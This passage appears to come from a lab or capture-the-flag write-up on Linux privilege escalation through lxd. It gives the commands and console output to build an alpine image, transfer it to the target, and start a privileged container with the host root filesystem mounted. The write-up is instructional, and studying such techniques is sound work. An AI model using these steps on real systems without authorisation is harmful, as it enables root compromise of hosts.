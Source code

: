 <br>

## Privilege Escalation via Lxd

Not having exploited lxd before I do some google searching and eventually boil it down to:
- Getting an alpine container built
- Transferring it to the target system and setting it up
- Breaking out of it as root

<br>

**Note:** You won't be able to build this directly on the system due to network connectivity so on my home system I download an alpine container builder that I found on GitHub by running:

`git clone https://github.com/saghul/lxd-alpine-builder.git`:

```
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 16.51 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Change to the created directory:

`cd lxd-alpine-builder`

Build the container with the provided file:

`sudo ./build-alpine`

When it's finished building you'll end up with a file similar to this:

```
alpine-v3.15-x86_64-20220131_0021.tar.gz
```

I start up a http server on my system and wget the container onto the target system.

<br>

Once it's there I run the following commands to get the container ready to go:

- `lxc image import ./alpine-v3.15-x86_64-20220131_0021.tar.gz --alias exploit`
- `lxc init exploit ignite -c security.privileged=true`
- `lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true`
- `lxc start ignite`
- `lxc list`


```
john@exploitable:/tmp$ lxc image import ./alpine-v3.15-x86_64-20220131_0021.tar.gz --alias exploit
Image imported with fingerprint: b8a65292cb8940967279eb890c67fbc9dfebb9e77a386772e74b57730b3e6fe9
john@exploitable:/tmp$ lxc init exploit ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true
Device exploit added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc list
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
|  NAME  |  STATE  |         IPV4         |                     IPV6                      |    TYPE    | SNAPSHOTS |
+--------+---------+----------------------+-----------------------------------------------+------------+-----------+
| ignite | RUNNING | 10.229.116.13 (eth0) | fd42:2998:1e63:3d6f:216:3eff:fe19:51ae (eth0) | PERSISTENT | 0         |
```
